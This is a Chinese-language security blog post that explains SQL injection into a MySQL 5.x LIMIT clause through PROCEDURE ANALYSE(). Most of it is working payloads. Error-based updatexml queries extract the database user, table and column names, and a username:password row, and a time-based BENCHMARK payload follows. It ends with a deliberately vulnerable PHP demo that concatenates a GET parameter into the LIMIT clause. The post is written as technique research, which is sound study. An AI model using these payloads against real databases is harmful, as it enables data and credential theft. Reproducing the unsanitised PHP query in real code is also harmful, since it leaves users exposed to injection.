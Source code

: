```yaml
---
layout: post
title: Mysql in Limit Sql Injection
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>
<center>
<img src="http://ww1.sinaimg.cn/mw690/9c5c5d93tw1erpyb5brduj20go08hgmc.jpg">
</center>

>sql注入在组合拼接方面一直都很灵活,因为语法本身就很灵活,不过Mysql的Limit下一直没办法注入,国外大牛发表了个[SQL Injections in MySQL LIMIT clause](https://rateip.com/blog/sql-injections-in-mysql-limit-clause/)的paper,意在利用Mysql的一个优化建议函数ANALYSE()进行Limit处注入,`此方法适用于Mysql5.x`.

	SELECT freld FROM table WHERE id>0 ORDER BY id LIMIT injection_point
	
**像这样的语句,由于后面跟着`ORDER BY`,所以无法UNION联合查询注入,那么就需要在LIMIT上找出路了**

Mysql5的`SELETCT`语法:

	SELECT 
    [ALL | DISTINCT | DISTINCTROW ] 
      [HIGH_PRIORITY] 
      [STRAIGHT_JOIN] 
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT] 
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS] 
    select_expr [, select_expr ...] 
    [FROM table_references 
    [WHERE where_condition] 
    [GROUP BY {col_name | expr | position} 
      [ASC | DESC], ... [WITH ROLLUP]] 
    [HAVING where_condition] 
    [ORDER BY {col_name | expr | position} 
      [ASC | DESC], ...] 
    [LIMIT {[offset,] row_count | row_count OFFSET offset}] 
    [PROCEDURE procedure_name(argument_list)] 
    [INTO OUTFILE 'file_name' export_options 
      | INTO DUMPFILE 'file_name' 
      | INTO var_name [, var_name]] 
    [FOR UPDATE | LOCK IN SHARE MODE]]
    
**LIMIT后面跟了两个函数,PROCEDURE和INTO,INTO除非有写入shell的权限，否则是无法利用的,那就看看PROCEDURE函数下能否注入.**

>一个测试表:

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/34324b9a.png">

**ANALYSE函数是可以查看表的优化建议**

	PROCEDURE ANALYSE([max_elements,[max_memory]])
	
ANALYSE函数后面可以有两个参数:

	select * from injection where id>0 order by id limit 0,1 procedure analyse(1,1);

<img src="http://ww4.sinaimg.cn/mw690/9c5c5d93tw1erqfqij043j20vo02qdhl.jpg">

看起来并不是很好，尝试下在`max_elements`处添加条件表达式:


	SELECT * from injection where id > 0 order by id LIMIT 1,1 procedure analyse((select IF(MID(version(),1,1) LIKE 5, sleep(5),1)),1);

但是立即返回了一个错误信息:

<img src="http://ww1.sinaimg.cn/mw690/9c5c5d93tw1erqfqhkijbj20vk02u40x.jpg">

>sleep函数没执行,不过还是有办法的,利用updatexml or extractvalue函数进行报错注入:

**爆用户名:**

	select * from injection where id>0 order by id limit 0,1 procedure analyse(updatexml(0,concat(0x7e,user()),0),1);
	
<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/213h8sad.png">

**爆表:**

	select * from injection where id>0 order by id limit 0,1 procedure analyse(updatexml(0,concat(0x7e,(select concat(table_name) from information_schema.tables where table_schema=database() limit 0,1)),0),1);

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/XA78as89.png">

**爆字段:**

	select * from injection where id>0 order by id limit 0,1 procedure analyse(updatexml(0,concat(0x7e,(select concat(column_name) from information_schema.columns where table_name='injection' limit 0,1)),0),1);
	
<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/32BSF8.png">

**爆数据:**

	select * from injection where id>0 order by id limit 0,1 procedure analyse(updatexml(0,concat(0x7e,(select concat_ws(':',id,username,password) from injection limit 0,1)),0),1);

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/sad782eq.png">

**如果不支持报错注入的话,还可以基于时间注入:**

	SELECT * FROM injection WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1);

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/3ewg87sdfb.png">

>一个Demo:

 	<?php
	/**
	 * Created by PhpStorm.
	 * User: Tr3jer
	 * Date: 15/1/24
	 * Time: 下午9:55
	 */
	include "Class_Mysql_Db_Model.php";
	
	$cof=new Config();
	$obj=new Mysql_Db_Model();
	$obj->connect($cof);
	
	$sql="select * from injection where id>0 order by id limit 0,{$_GET['id']}";
	
	if($obj->query($sql)){
		var_dump($row);
	}else{
		die(mysql_error());
	}
	
	mysql_close($obj);

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/3neiuwyfd.png">

>执行的语句:

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/2nuefdys8.png">

>Mysql内建的特性有很多,不过能够利用的缺陷还有待挖掘:)